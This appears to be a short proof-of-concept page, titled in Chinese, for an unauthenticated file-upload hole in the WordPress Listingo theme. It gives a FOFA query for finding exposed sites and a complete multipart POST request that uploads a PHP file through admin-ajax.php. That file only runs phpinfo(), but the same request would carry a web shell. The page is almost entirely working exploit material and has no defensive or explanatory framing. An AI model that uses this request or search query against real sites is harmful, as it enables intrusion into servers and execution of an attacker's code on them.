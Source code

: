 ##  wordpress listingo 文件上传漏洞

## fofa
```
body="wp-content/themes/listingo"
```

## poc
```
POST /wp-admin/admin-ajax.php?action=listingo_temp_uploader HTTP/1.1
Host: targetUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:120.0) Gecko/20100101 Firefox/120.0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary8rVjnfcgxgKoytcgAccept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Content-Length: 531

------WebKitFormBoundary8rVjnfcgxgKoytcg
Content-Disposition: form-data; name="listingo_uploader";filename="1008.php"
Content-Type:text/php

<?phpphpinfo();?>
------WebKitFormBoundary8rVjnfcgxgKoytcg
Content-Disposition: form-data; name="submit"

Start Uploader
------WebKitFormBoundary8rVjnfcgxgKoytcg--
```
![image](../../images/8b115456-bcbe-4d0f-b51d-add3dcf0db78.png)
